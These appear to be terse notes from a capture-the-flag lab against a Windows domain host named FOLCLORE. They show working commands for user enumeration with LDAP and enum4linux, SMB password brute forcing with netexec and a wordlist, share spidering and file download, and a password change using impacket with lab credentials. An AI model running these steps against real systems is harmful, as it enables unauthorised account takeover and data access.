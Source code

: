 ldapsearch -h 192.168.69.9 -x -b "DC=FOLCLORE" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "


enum4linux -U  192.168.69.9  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"





Administrador
Invitado
Quetzalcoatl
El_charro_negro
Ix_Chel
Tlaloc
La_mulata_de_Cordoba
La_Catrina





┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "El_charro_negro" -p /usr/share/wordlists/rockyou.txt --continue-on-success --ignore-pw-decoding | grep "STATUS_PASSWORD_EXPIRED"
SMB                      192.168.69.9    445    FOLCLORE         [-] Folclore\El_charro_negro:abc123 STATUS_PASSWORD_EXPIRED 
^C^C
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "El_charro_negro" -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding | grep "+"                      
^C
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "El_charro_negro" -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding           
SMB         192.168.69.9    445    FOLCLORE         [*] Windows 10 / Server 2019 Build 19041 (name:FOLCLORE) (domain:Folclore) (signing:False) (SMBv1:False) 
SMB         192.168.69.9    445    FOLCLORE         [-] Folclore\El_charro_negro:abc123 STATUS_PASSWORD_EXPIRED 








➜  Folclore netexec smb 192.168.69.9 -u anonymous -p '' -M spider_plus -o DOWNLOAD_FLAG=true







┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u El_charro_negro -p 'cuenca12345' --shares  
SMB         192.168.69.9    445    FOLCLORE         [*] Windows 10 / Server 2019 Build 19041 (name:FOLCLORE) (domain:Folclore) (signing:False) (SMBv1:False) 
SMB         192.168.69.9    445    FOLCLORE         [+] Folclore\El_charro_negro:cuenca12345 
SMB         192.168.69.9    445    FOLCLORE         [*] Enumerated shares
SMB         192.168.69.9    445    FOLCLORE         Share           Permissions     Remark
SMB         192.168.69.9    445    FOLCLORE         -----           -----------     ------
SMB         192.168.69.9    445    FOLCLORE         ADMIN$                          Admin remota
SMB         192.168.69.9    445    FOLCLORE         C$                              Recurso predeterminado
SMB         192.168.69.9    445    FOLCLORE         Dia de Muertos                  Al final, todos somos polvo y hueso.
SMB         192.168.69.9    445    FOLCLORE         IPC$            READ            IPC remota
SMB         192.168.69.9    445    FOLCLORE         Libertad                        El secreto está en quien se atreve a buscarlo; sigue tu camino sin miedo.
SMB         192.168.69.9    445    FOLCLORE         Lluvia                          Presta atención, pues en esta imagen el camino se revela sólo a quien sabe escuchar el trueno                                                                                                                                                                               
SMB         192.168.69.9    445    FOLCLORE         Oro             READ,WRITE      ¿Buscas llegar a Quetzalcóatl? Aquí inicia tu camino.
SMB         192.168.69.9    445    FOLCLORE         Santuario                       El Refugio de Ixchel
SMB         192.168.69.9    445    FOLCLORE         Viento                          El viento sagrado ejecutará la tarea a su debido tiempo



┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ smbclient  //192.168.69.9/Oro -U El_charro_negro                 
Password for [WORKGROUP\El_charro_negro]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 29 17:56:39 2025
  ..                                  D        0  Mon Sep 29 17:56:39 2025
  El_Charro_Negro.jpeg                A    50061  Mon Jul 28 20:40:26 2025

                15581256 blocks of size 4096. 10762905 blocks available
smb: \> get El_Charro_Negro.jpeg 
getting file \El_Charro_Negro.jpeg of size 50061 as El_Charro_Negro.jpeg (118.7 KiloBytes/sec) (average 118.7 KiloBytes/sec)
smb: \> 




 impacket-changepasswd 'Folclore/Ix_Chel':'4+9Ii1wK'@192.168.69.9
